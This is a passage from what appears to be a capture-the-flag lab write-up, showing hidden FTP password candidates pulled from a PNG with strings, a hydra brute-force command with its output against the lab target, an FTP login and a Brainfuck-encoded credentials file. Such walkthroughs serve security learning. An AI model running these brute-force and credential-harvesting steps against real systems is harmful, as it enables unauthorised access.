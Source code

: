 Inside we find a single `.png` file, a photo of Swedish model Lena Forsén. While the photo appears unmodified, using the strings command on it in our terminal reveals a hidden message.

```console 

strings Hot_Babe.png 

Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
[OUTPUT OMMITED]
```

***

### Exploitation

After a lengthy enumeration, we have a username for the FTP server, and some possible passwords. Let’s create a wordlist using those passwords and launch a brute force attack against the FTP server with hydra. 

```console 

hydra -l ftpuser -P passwords.txt ftp://<TARGET IP>
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-02 12:56:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.188.185:21/
[21][ftp] host: 10.10.188.185   login: ftpuser   password: [PASSWORD REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-02 12:56:36
```

Fantastic, we have access to the FTP server, let's login.

```console

ftp ftpuser@<TARGET IP>
230 Login successful.
ftp> ls 
Eli's_Creds.txt
ftp> get Eli's_Creds.txt
```
Inside we find and download Eli's credentials, let's see what they are.
```console
cat Eli's_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```


[^footnote]: https://www.dcode.fr/cipher-identifier
[^footnote2]: https://www.exploit-db.com/exploits/47502
